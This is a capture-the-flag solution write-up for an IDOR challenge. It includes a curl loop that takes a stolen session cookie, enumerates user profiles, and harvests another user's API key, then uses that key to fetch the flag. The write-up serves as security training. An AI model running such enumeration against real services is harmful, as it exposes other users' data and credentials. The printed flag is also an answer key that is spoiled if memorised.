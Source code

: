 # Solution

The intended solution exploits the "broken access control" topic from [OWASP's top 10](https://owasp.org/www-project-top-ten/) list of 2021.
More specifically, using an insecure direct object references ("IDOR").

## Steps:

**1.** Log in as Signy using the provided credentials

**2.** Navigate to Signy's profile page with the "User profile" link

**3.** Notice the `userId=5` part of the URL, and change it to `userId=6` to verify the IDOR vulnerability

**4.** Grab your `authToken` cookie from the web browser to prepare for automation

**4.** Enumerate the user profiles to find a non-corrupted user

This can for example be done using cURL with a command line script, including the `authToken` cookie and the specified URL.

```shell
cookie="authToken=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjUsImlhdCI6MTY0NzQyMTAzM30.opV7gK9l2_MpsLBlXhQzZWC1vitPE7dEVClHNGKJDgk"
for i in `seq 1 100`; do
  echo "Trying userId=$i";
  curl -s -H "cookie: $cookie" "https://b-urglar-ctf.labs.nais.io/profile?userId=$i" | grep -i "<code>" | grep -v "Error loading user";
done
```

Running this will iterate over the first 100 users, printing out the API key for all non-corrupted users:
```
…
Trying userId=73
Trying userId=74
Trying userId=75
Trying userId=76
Trying userId=77
Trying userId=78
Trying userId=79
    <code>c3VwZXJzZWNyZXRhcGlrZXl0aGF0eW91d2lsbG5ldmVyZ3Vlc3MK</code>
```

**5.** Use the API token to call the secret endpoint

This can again be done using cURL, but any http client with header-support should work.

```shell
token="c3VwZXJzZWNyZXRhcGlrZXl0aGF0eW91d2lsbG5ldmVyZ3Vlc3MK"
curl -s -H "authorization: $token" "https://b-urglar-ctf.labs.nais.io/secret"
```

The JSON-response contains the flag 🎉
```json
{"flag":"HSCTF{Brad1337IsTooCoolForSchool}"}
```
